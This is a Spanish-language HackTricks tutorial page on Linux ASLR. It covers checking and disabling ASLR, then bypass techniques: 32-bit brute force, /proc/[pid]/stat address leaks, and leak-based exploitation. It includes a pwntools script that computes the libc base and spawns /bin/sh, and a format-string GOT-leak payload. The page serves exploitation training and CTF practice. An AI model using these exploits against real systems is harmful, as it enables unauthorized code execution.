 # ASLR

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Información Básica

**Address Space Layout Randomization (ASLR)** es una técnica de seguridad utilizada en sistemas operativos para **aleatorizar las direcciones de memoria** utilizadas por los procesos del sistema y de la aplicación. Al hacerlo, se dificulta significativamente que un atacante prediga la ubicación de procesos y datos específicos, como la pila, el montón y las bibliotecas, mitigando así ciertos tipos de exploits, particularmente desbordamientos de búfer.

### **Verificando el Estado de ASLR**

Para **verificar** el estado de ASLR en un sistema Linux, puedes leer el valor del archivo `/proc/sys/kernel/randomize_va_space`. El valor almacenado en este archivo determina el tipo de ASLR que se está aplicando:

* **0**: Sin aleatorización. Todo es estático.
* **1**: Aleatorización conservadora. Las bibliotecas compartidas, la pila, mmap(), la página VDSO están aleatorizadas.
* **2**: Aleatorización completa. Además de los elementos aleatorizados por la aleatorización conservadora, la memoria gestionada a través de `brk()` está aleatorizada.

Puedes verificar el estado de ASLR con el siguiente comando:
```bash
cat /proc/sys/kernel/randomize_va_space
```
### **Deshabilitando ASLR**

Para **deshabilitar** ASLR, debes establecer el valor de `/proc/sys/kernel/randomize_va_space` en **0**. Deshabilitar ASLR generalmente no se recomienda fuera de escenarios de prueba o depuración. Aquí tienes cómo puedes deshabilitarlo:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
También puedes deshabilitar ASLR para una ejecución con:
```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```
### **Habilitando ASLR**

Para **habilitar** ASLR, puedes escribir un valor de **2** en el archivo `/proc/sys/kernel/randomize_va_space`. Esto generalmente requiere privilegios de root. La habilitación de la aleatorización completa se puede hacer con el siguiente comando:
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
### **Persistencia a Través de Reinicios**

Los cambios realizados con los comandos `echo` son temporales y se restablecerán al reiniciar. Para hacer que el cambio sea persistente, necesitas editar el archivo `/etc/sysctl.conf` y agregar o modificar la siguiente línea:
```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```
Después de editar `/etc/sysctl.conf`, aplica los cambios con:
```bash
sudo sysctl -p
```
Esto asegurará que la configuración de ASLR se mantenga a través de reinicios.

## **Bypasses**

### Fuerza bruta de 32 bits

PaX divide el espacio de direcciones del proceso en **3 grupos**:

* **Código y datos** (inicializados y no inicializados): `.text`, `.data`, y `.bss` —> **16 bits** de entropía en la variable `delta_exec`. Esta variable se inicializa aleatoriamente con cada proceso y se suma a las direcciones iniciales.
* **Memoria** asignada por `mmap()` y **bibliotecas compartidas** —> **16 bits**, llamada `delta_mmap`.
* **La pila** —> **24 bits**, referida como `delta_stack`. Sin embargo, utiliza efectivamente **11 bits** (del 10º al 20º byte inclusive), alineados a **16 bytes** —> Esto resulta en **524,288 posibles direcciones de pila reales**.

Los datos anteriores son para sistemas de 32 bits y la entropía final reducida hace posible eludir ASLR al reintentar la ejecución una y otra vez hasta que el exploit se complete con éxito.

#### Ideas de fuerza bruta:

* Si tienes un desbordamiento lo suficientemente grande para alojar un **gran NOP sled antes del shellcode**, podrías simplemente forzar direcciones en la pila hasta que el flujo **salte sobre alguna parte del NOP sled**.
* Otra opción para esto en caso de que el desbordamiento no sea tan grande y el exploit se pueda ejecutar localmente es posible **agregar el NOP sled y el shellcode en una variable de entorno**.
* Si el exploit es local, puedes intentar forzar la dirección base de libc (útil para sistemas de 32 bits):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* Si atacas un servidor remoto, podrías intentar **forzar la dirección de la función `usleep` de `libc`**, pasando como argumento 10 (por ejemplo). Si en algún momento el **servidor tarda 10s extra en responder**, encontraste la dirección de esta función.

{% hint style="success" %}
En sistemas de 64 bits, la entropía es mucho mayor y esto no es posible.
{% endhint %}

### Información Local (`/proc/[pid]/stat`)

El archivo **`/proc/[pid]/stat`** de un proceso siempre es legible por todos y **contiene información interesante** como:

* **startcode** & **endcode**: Direcciones por encima y por debajo con el **TEXT** del binario
* **startstack**: La dirección del inicio de la **pila**
* **start\_data** & **end\_data**: Direcciones por encima y por debajo donde está el **BSS**
* **kstkesp** & **kstkeip**: Direcciones actuales de **ESP** y **EIP**
* **arg\_start** & **arg\_end**: Direcciones por encima y por debajo donde están los **argumentos cli**.
* **env\_start** & **env\_end**: Direcciones por encima y por debajo donde están las **variables de entorno**.

Por lo tanto, si el atacante está en la misma computadora que el binario que se está explotando y este binario no espera el desbordamiento de argumentos en bruto, sino de una **entrada diferente que se puede crear después de leer este archivo**. Es posible que un atacante **obtenga algunas direcciones de este archivo y construya offsets a partir de ellas para la explotación**.

{% hint style="success" %}
Para más información sobre este archivo, consulta [https://man7.org/linux/man-pages/man5/proc.5.html](https://man7.org/linux/man-pages/man5/proc.5.html) buscando `/proc/pid/stat`
{% endhint %}

### Tener un leak

* **El desafío es dar un leak**

Si se te da un leak (desafíos CTF fáciles), puedes calcular offsets a partir de él (suponiendo, por ejemplo, que conoces la versión exacta de libc que se utiliza en el sistema que estás explotando). Este ejemplo de explotación se extrae de [**el ejemplo de aquí**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak) (consulta esa página para más detalles):
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
* **ret2plt**

Abusando de un desbordamiento de búfer, sería posible explotar un **ret2plt** para exfiltrar una dirección de una función de la libc. Ver:

{% content-ref url="ret2plt.md" %}
[ret2plt.md](ret2plt.md)
{% endcontent-ref %}

* **Format Strings Lectura Arbitraria**

Al igual que en ret2plt, si tienes una lectura arbitraria a través de una vulnerabilidad de cadenas de formato, es posible exfiltrar la dirección de una **función de libc** desde el GOT. El siguiente [**ejemplo es de aquí**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got):
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
Puedes encontrar más información sobre la lectura arbitraria de cadenas de formato en:

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

### Ret2ret & Ret2pop

Intenta eludir ASLR abusando de direcciones dentro de la pila:

{% content-ref url="../../stack-overflow/ret2ret.md" %}
[ret2ret.md](../../stack-overflow/ret2ret.md)
{% endcontent-ref %}

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
